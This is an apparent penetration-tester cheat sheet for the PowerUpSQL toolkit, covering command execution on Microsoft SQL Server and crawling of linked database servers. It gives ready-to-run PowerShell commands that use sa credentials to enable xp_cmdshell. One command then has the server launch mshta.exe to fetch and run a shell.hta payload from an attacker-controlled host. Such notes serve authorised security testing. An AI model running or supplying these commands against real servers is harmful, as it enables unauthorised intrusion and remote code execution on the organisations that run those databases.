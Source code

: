# PowerUpSQL

## 01 - Invoke-SQLOSCmd


> [!NOTE]
> `<FQDN_domain>` is literally `<computername>.<domain>`.

```
PS C:\> impo .\PowerUpSQL.ps1

PS C:\> Invoke-SQLOSCmd -Instance "<FQDN_domain>,1433" -Command "<command>" -RawResults
```

## 02 - Get-SQLServerLinkCrawl

Retrieving MSSQL SPN and domain.

```
PS C:\> Get-SQLServerLinkCrawl -Instance "<FQDN_domain>,1433"
```

```
PS C:\> Get-SQLServerLinkCrawl -Username sa -Password <password> -Instance <domain>\<IP> -Verbose

PS C:\> Get-SQLServerLinkCrawl -Username sa -Password <password> -Instance <domain>\<IP> -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;')"

PS C:\> Get-SQLServerLinkCrawl -Username sa -Password <password> -Instance <domain>\<IP> -Query "exec master..xp_cmdshell 'mshta.exe http://<IP>/shell.hta'"
```

---
## References

- [MSSQL for Pentester Abusing Linked Database](https://www.hackingarticles.in/mssql-for-pentester-abusing-linked-database/)

- [NetSPI: SQL Server Link Crawling PowerUpSQL](https://www.netspi.com/blog/technical/network-penetration-testing/sql-server-link-crawling-powerupsql/)

- [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)